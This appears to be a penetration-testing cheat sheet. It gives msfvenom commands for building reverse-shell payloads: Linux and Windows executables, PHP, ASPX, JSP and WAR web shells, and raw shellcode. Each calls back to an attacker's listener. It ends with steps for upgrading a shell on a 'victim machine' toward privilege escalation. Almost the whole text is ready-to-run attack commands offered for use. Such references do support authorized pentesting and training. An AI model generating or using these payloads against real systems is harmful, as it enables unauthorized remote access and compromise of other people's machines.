 ### Metasploit

#### System Binaries
``` bash
# Linux reverse shell - Staged
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<ip> LPORT=<port> -f elf > shell
# Linux reverse shell - Stageless
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf > shell

# Windows reverse shell - Staged
msfvenom -p windows/shell/reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o reverse.exe
# Windows reverse shell - Stageless
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o reverse.exe
```

#### Web
``` bash
# PHP
msfvenom -p php/reverse_php 

# ASPX
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f aspx -o shell.aspx

# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o shell.jsp

# WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war -o shell.war
```


#### Shellcode
Select appropriate architecture
``` bash
# Linux Staged - use python or c
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<ip> LPORT=<port> -f python
# Linux Stageless - use python or c
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f python

# Windows Staged - use python or c
msfvenom -p windows/x64/shell/reverse_tcp LHOST=<ip> LPORT=<port> -f python
# Windows Stageless - use python or c
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f python
```

## Upgrading your shell - Linux

*Upon initial access, it is crucial to achieve the highest functional shell possible for privesc purposes!*

``` bash
# On victim machine
which python[3]
python[3] -c 'import pty;pty.spawn("/bin/bash")'
# background the listener using ctrl+z
stty -a # notice the number of rows and columns
stty raw -echo
# foreground the process: type fg, press enter
stty rows xx
stty columns xxx
export TERM=xterm-256color
```
